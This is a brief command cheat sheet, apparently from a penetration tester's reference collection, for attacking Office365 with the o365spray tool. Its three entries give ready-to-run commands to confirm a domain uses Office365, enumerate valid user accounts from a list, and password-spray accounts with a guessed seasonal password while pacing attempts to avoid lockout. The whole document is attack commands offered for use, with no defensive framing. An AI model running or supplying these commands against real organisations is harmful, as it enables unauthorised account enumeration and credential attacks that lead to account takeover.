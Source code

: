 # Office 365

% office365

## python3 - Verify Office365 usage
```
python3 o365spray.py --validate --domain msplaintext.xyz
```

## Enumerate Office365 users
```
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```

## Password spraying on Office365
```
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

